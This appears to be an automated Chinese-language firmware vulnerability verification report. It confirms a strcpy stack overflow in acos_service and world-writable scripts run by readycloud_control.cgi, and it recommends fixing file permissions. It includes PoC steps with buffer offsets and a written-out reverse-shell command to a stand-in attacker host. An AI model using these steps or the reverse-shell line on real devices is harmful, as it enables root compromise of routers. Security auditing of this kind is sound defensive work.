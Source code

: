 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 基于对 'sbin/acos_service' 二进制文件的静态分析，验证了安全警报中的缓冲区溢出漏洞。证据如下：1) 代码逻辑：在 main 函数地址 0x0000c298-0x0000c2a8 处，存在对 NVRAM 变量 'ParentalCtrl_MAC_ID_tbl' 的不安全 strcpy 操作，无边界检查。2) 栈布局分析：缓冲区位于栈偏移 sp+0x1030 处，返回地址位于 sp-4 处，计算得偏移约为 2500 字节（与警报中 2516 字节略有差异，但仍在可利用范围内）。3) 输入可控性：攻击者可通过 web 界面或 CLI 设置 'ParentalCtrl_MAC_ID_tbl' 内容。4) 路径可达性：代码在 strcpy 前检查 'ParentalControl' NVRAM 变量是否为 '1'（地址 0x0000c268-0x0000c278），条件满足时执行漏洞代码。5) 实际影响：溢出可覆盖返回地址，控制执行流，由于 'acos_service' 以 root 权限运行，可能导致权限提升。攻击者模型为未经身份验证的远程攻击者或已通过身份验证的本地用户（通过网络服务设置 NVRAM）。PoC 步骤：a) 设置 'ParentalControl' 为 '1'；b) 设置 'ParentalCtrl_MAC_ID_tbl' 为超过 2500 字节的恶意字符串（包含 shellcode 和返回地址覆盖）；c) 触发 acos_service 执行（如重启服务或访问相关功能）。漏洞可利用性高，风险为高级别。

## 验证指标

- **验证时长：** 835.30 秒
- **Token 使用量：** 2265074

---

## 原始信息

- **文件/目录路径：** `opt/broken/Copy_files`
- **位置：** `文件权限漏洞位于整个 /opt/broken 目录，具体文件包括：readycloud_control.cgi、register.sh、comm.sh、env.sh、unregister.sh 等（所有文件均具有 777 权限）。`
- **描述：** 在分析 'Copy_files' 文件时，发现当前目录 '/opt/broken' 中的所有文件（包括脚本）都具有 777 权限（世界可写）。这允许非 root 用户（拥有有效登录凭据）修改这些脚本（如 register.sh、comm.sh）。当攻击者修改这些脚本注入恶意代码（例如反向 shell 或命令执行），并通过触发 readycloud_control.cgi（可能以 root 权限运行，例如通过 web 接口）来执行这些脚本时，会导致任意代码执行与权限提升。触发条件包括：攻击者修改脚本后，通过 web 请求或直接执行 readycloud_control.cgi（使用环境变量 PATH_INFO 和 REQUEST_METHOD，或文件输入如 register.txt）。利用方式简单：攻击者只需修改任意脚本并触发 CGI 执行。
- **代码片段：**
  ```
  从 ls -la 输出：
  -rwxrwxrwx 1 user user   128 9月  18  2017 alias.sh
  -rwxrwxrwx 1 user user  4742 9月  18  2017 comm.sh
  -rwxrwxrwx 1 user user   532 9月  18  2017 Copy_files
  -rwxrwxrwx 1 user user  1167 9月  18  2017 env_nvram.sh
  -rwxrwxrwx 1 user user   555 9月  18  2017 env.sh
  -rwxrwxrwx 1 user user 98508 9月  18  2017 readycloud_control.cgi
  -rwxrwxrwx 1 user user   595 9月  18  2017 register.sh
  -rwxrwxrwx 1 user user    79 9月  18  2017 register.txt
  -rwxrwxrwx 1 user user   562 9月  18  2017 set_nvram.sh
  -rwxrwxrwx 1 user user   608 9月  18  2017 unregister.sh
  -rwxrwxrwx 1 user user   456 9月  18  2017 unset_nvram.sh
  ```
- **备注：** 此漏洞基于文件权限问题，而非代码逻辑漏洞。攻击链完整：非 root 用户可修改脚本，并通过 CGI 触发执行（可能以 root 权限）。建议立即修复文件权限（例如设置为 755 并限制写权限）。进一步分析应检查 readycloud_control.cgi 是否确实以 root 权限运行，以及是否有其他输入验证漏洞。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了文件权限漏洞。证据显示：1) /opt/broken 目录中所有文件（包括 readycloud_control.cgi、register.sh、comm.sh 等）均具有 777 权限（世界可写），允许任何认证用户（拥有有效登录凭据）修改这些脚本；2) readycloud_control.cgi 二进制文件使用 'system' 函数执行命令，并依赖环境变量 'PATH_INFO' 和 'REQUEST_METHOD'（攻击者可在 web 请求中控制）来构造和执行命令路径，引用脚本如 /opt/broken/register.sh；3) 反编译代码（如 fcn.00013114）显示命令构造和系统调用，无输入清理。攻击链完整：攻击者可修改脚本（如注入反向 shell），并通过 web 请求触发 readycloud_control.cgi 执行，导致任意代码执行。假设 CGI 以 root 权限运行（常见于固件 web 接口），则可实现权限提升。PoC 步骤：1) 攻击者以认证用户身份登录；2) 修改 /opt/broken/register.sh，添加恶意代码（例如：'bash -i >& /dev/tcp/attacker.com/4444 0>&1'）；3) 发送 HTTP 请求到 readycloud_control.cgi，设置 PATH_INFO=/register.sh 和 REQUEST_METHOD=GET；4) 如果 CGI 以 root 运行，恶意代码将以 root 权限执行，建立反向 shell。建议立即修复文件权限（例如设置为 755）。
